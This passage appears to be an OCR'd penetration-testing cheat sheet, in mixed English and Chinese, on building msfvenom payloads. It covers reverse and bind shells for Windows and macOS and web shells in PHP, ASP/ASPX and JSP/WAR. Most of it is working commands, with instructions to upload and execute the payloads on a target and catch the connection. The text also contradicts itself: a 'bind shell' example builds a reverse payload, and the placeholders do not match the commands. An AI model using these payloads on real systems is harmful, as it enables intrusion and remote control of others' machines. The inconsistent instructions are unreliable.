 For example, to create a bind shell payload for a Windows system that listens on port 4444 and saves it as `shell.exe`, you can use the following command:

```plaintext
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.10 LPORT=4444 -f exe -o shell.exe
```

Remember to replace `<local IP>` with your actual IP address and `<port>` with the desired port number.

Once the bind shell payload is created, you can transfer it to the target system and execute it to establish a connection.
```bash
msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho
```
## **基于Web的Payloads**

### **PHP**

#### 反向shell
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
#### 反向 shell

The `msfvenom` tool can be used to generate a reverse shell payload in ASP/x format. This payload can be used to establish a reverse connection from the target machine to the attacker's machine.

To generate the reverse shell payload, use the following command:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker IP> LPORT=<attacker port> -f asp > shell.asp
```

Replace `<attacker IP>` with the IP address of the attacker's machine and `<attacker port>` with the desired port number.

Once the payload is generated, it can be uploaded to the target machine and executed. This will establish a reverse connection, allowing the attacker to interact with the target machine's shell.

Note: Make sure to set up a listener on the specified port to catch the incoming connection.
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
```
### JSP

#### 反向 shell

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attacker IP> LPORT=<attacker port> -f war > shell.war
```
